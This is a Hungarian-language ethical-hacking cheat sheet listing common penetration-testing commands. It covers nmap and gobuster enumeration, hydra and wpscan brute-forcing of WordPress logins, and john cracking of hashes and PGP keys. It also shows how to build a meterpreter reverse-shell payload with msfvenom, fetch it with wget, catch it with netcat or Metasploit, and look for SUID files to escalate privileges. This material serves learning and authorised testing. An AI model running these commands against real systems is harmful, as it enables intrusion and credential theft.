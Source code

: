 # Etikus hackelés cheat-sheet

## Alapvető paracsok:

- `ping $RHOST`
- `sudo nmap -sS -sV (-O -sC) $RHOST` esetleg, ha ismerjük (-p PORT)
- `gobuster dir -u http://$RHOST -w /usr/share/wordlists/dirb/common.txt -x php,sh,txt,cgi,html,js,css,py` vagy `/usr/share/wordlists/dirb/big.txt`
  Gobuster helyett lehet dirb-t is használni: `dirb http://$RHOST {megfelelő szólista} (-r)`, ahol a -r kikapcsolja a rekurzív keresést

## Wordpress esetén:

- `hydra -L {filename} -p test $RHOST http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30`
- `hydra -l {username} -P {password_file} $RHOST http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30`
- `wpscan --url http://$RHOST --enumerate u` (regisztrált felhasználók)
- `wpscan --url http://$RHOST --usernames {username} --passwords {filename}` -(itt lehet használni pl.: usr/share/wordlists/rockyou.txt)
- Ha kapunk egy hash-t:
- Hash típusának meghatározása: `hash-identifier`
- Hash feltörése: `john {filename} --format={az előbb meghatározott típus, pl.: raw-md5} --wordlist=/usr/share/wordlists/rockyou.txt`

## Netcat listener készítése:

- `nc -lvnp 5555` (5555=PORT, ez lehet más is)

## Msfconsole multi/handler:

- `set payload linux/x64/meterpreter_reverse_tcp`
- `set lhost $LHOST`
- `set rhost $RHOST`
- `set lport 5555`
- `run`

#### Ha kaptunk meterpreter shell-t, akkor egyszerűen az `upload` és `download` parancsokat használhatjuk

## Interaktív shell készítése:

- Ha van python a célgépen: `python -c "import pty; pty.spawn('/bin/bash')"`, de más eszközök is rendelkezésre állnak a gépen elérhető programok függvényében pl.: `perl`. Ha találunk valami ilyesmit, akkor érdemes lecsekkolni a [gtfobins](https://gtfobins.github.io/#python)-en.

## SUID bitek keresése:

- `find / -perm /u=s 2>/dev/null`

## Shell kódok készítése msfvenommal:

- `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=$LHOST RHOST=$RHOST LPORT=5555 -f elf > revshell.elf`
- Ha pl. windowsos célgépet támadunk akkor az .elf kiterjesztés helyett a .exe kiterjesztést használjuk.

## SSH alapok:

- Eszközhöz való csatlakozás: `ssh -p PORT username@$RHOST`
- Eszközhöz való csatlakozás privát kulcs használatával: `ssh -p PORT -i {privát kulcs} username@$RHOST`, viszont ekkor a privát kulcs publikus párjána szerepelnie kell a felhasználó `~/.ssh/authorized keys` fájljában.

## Privát kulcs készítése:

- `openssl genpkey –algorithm RSA -pkeyopt rsa_keygen_bits:2048 > privat.pem` vagy `ssh-keygen -t rsa -b 2048`

## Publikus kulcs készítése privátból:

- `ssh-keygen -f privat.pem -y > publikus.pub`

## Python szerver:

- `python3 -m http.server`
- Letöltés a szerverről: `wget http://$RHOST:8000/revshell.elf`

## A sudo parancs:

- `sudo -l`
- Futtatás más felhasználó nevében (pl.: SUID bitünk van): `sudo -u username ...parancsok`

## Szkriptelés:

- Szkriptek elejére: `#!/bin/zsh` vagy `#!/bin/bash`
- Hasznos oldal lehet még a [pentestmonkey](https://pentestmonkey.net/category/cheat-sheet) is

## PGP fájl esetén:

- `gpg2john filenév.asc > hová`
- `john --format=gpg filenév --wordlist=/usr/share/wordlists/rockyou.txt`
- `gpg --import filenév.asc` (Itt megadjuk az előbb kinyert jelszót)
- `gpg --decrypt filenév.pgp`

## Egy bizonyos rendszer sérülékenységeinek keresése:

- [exploit-db](https://www.exploit-db.com/)

## Linux capabilities:

- `getcap -r / 2>/dev/null`
